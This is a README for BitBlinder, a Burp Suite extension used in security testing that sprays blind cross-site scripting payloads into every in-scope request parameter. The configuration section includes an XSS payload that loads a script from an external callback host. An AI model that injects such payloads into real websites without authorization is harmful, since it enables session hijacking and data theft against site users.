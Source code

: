 # BitBlinder

**THIS TOOLS IS IN EARLY BETA USE IT ON YOUR OWN RISK**  
Burp extension helps in finding blind xss vulnerabilities by injecting xss payloads in every request passes throw BurpSuite
```
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
-  Developer: Ahmed Ezzat (BitTheByte)      -
-  Github:    https://github.com/BitTheByte -
-  Version:   0.04b                         -
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
[WARNING] MAKE SURE TO EDIT THE SETTINGS BEFORE USE
[WARNING] THIS TOOL WILL WORK FOR IN-SCOPE ITEMS ONLY
[WARNING] THIS TOOL WILL CONSUME TOO MUCH BANDWIDTH
```

# Configuration
Go to `Bit blinder` tab then enable it  
Set your payloads (line separated)  
```
"><script%20src="https://myusername.xss.ht"><script>
"><script%20src="https://myusername.xss.ht"><script>
...
```
If you added more than 1 payload enable the randomization button  
If you want to keep it disabled keep in mind that the tool will use the first payload only


# How to use
1. Load the extension to your burpsuite
2. Click on `Bit blinder` tab then enable it  
3. Add your target to scope **It'll only work for inscope items**
4. Continue your hunting session **Make sure to do alot of actions [Forms,Search,...]**
5. Monitor the output in extension's output tab

**Note:** By the nature of this tool it'll make alot of requests so you may get blocked by WAF or experience slow internet connection


# In a nutshell

When user visits [https://example.com?vuln=123&vuln2=abc](https://example.com?vuln=123&vuln2=abc)  
This tool will generate the following 2 requests (in the background without effecting the current session)  
1. [https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc](https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc)
2. [https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD]](https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD])

The previous example also applies to `POST` parameters


# Current version
```
Version 0.04b
```


# TO-DO (By priority)
- GUI
- Fix endless request loops
- Injection in headers
- Option to exclude paramters/hosts/endpoints
- Better output/logging system
